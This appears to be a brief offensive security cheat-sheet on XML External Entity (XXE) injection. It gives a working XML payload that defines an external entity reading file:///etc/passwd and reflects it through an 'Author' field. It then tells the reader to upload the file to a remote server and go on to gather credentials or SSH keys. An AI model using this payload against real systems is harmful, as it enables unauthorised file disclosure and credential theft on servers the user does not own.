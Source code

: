 # XML External Entity \(XXE Injection\)

## XXE Information



## XXE Enumeration

If the web reports the content of an XML field, the attackers may be able to use an ENTITY to replace the reported field with the content of an internal file of the machine.

First, we must consider if we can upload files to the remote server, if yes. Then we may continue with a payload like the following:

```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<elements>
    <Author>&xxe;</Author>
    <Subject>AnySubject</Subject>
    <Content>AnyContent</Content>
</elements>
```

After writing a similar code, we should upload this file to the remote server and execute it. If successful, you may try to further enumerate the target system and gather credentials or SSH keys.

